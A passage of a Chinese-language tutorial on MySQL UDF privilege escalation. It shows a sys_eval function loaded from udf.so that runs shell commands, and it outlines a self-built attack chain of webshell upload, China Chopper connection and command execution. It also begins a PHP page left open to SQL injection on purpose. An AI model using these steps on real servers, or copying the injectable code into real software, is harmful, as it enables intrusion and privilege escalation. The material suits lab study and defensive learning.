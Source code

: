 1. 在 MySQL 命令行中加载自定义函数

```
# 创建自定义函数
MySQL [pwn]> create function sys_eval returns string soname 'udf.so';
Query OK, 0 rows affected (0.00 sec)
# 使用
MySQL [pwn]> select sys_eval('ls /');
+------------------------------------------------------------------------------------------------------------------------------------------------------------+
| sys_eval('ls /')                                                                                                                                           |
+------------------------------------------------------------------------------------------------------------------------------------------------------------+
| bin
boot
cdrom
dev
etc
```

1. 从 MySQL 中删除自定义函数

```
# 删除函数
MySQL [pwn]> drop function sys_eval;
Query OK, 0 rows affected (0.00 sec)
```







## 3 UDF实战

以下为自己构造的场景，然后附上了自我入侵的全过程，如有便捷之处还望指正~

### 3.1.大体思路

1. 写一句话木马
2. 菜刀连接
3. 上传udf文件，不行就先上传大马，然后通过大马上传udf文件
4. 创建功能函数
5. 执行提权或者其他命令
6. 删除函数

### 3.2.构造注入页面

写一个存在SQLi的页面：`index.php`

> 测试环境：`phpstudy ==> PHP7 + MySQL5.7 + Nginx1.15.11`

```
<?php
    // 自己构造的一个sqli页面
    $pms=$_GET["id"];
    if(empty($pms)){
        $pms=1;
    }
    echo "id=" . $pms . "<br/>";

    $conn=new mysqli("localhost", "root", "xxxx", "workdb");
    if ($conn->connect_error) {
        die("连接失败：" . $conn->connect_error);
    }

    // 防止中文乱码
    $conn->query("set names utf8;");
```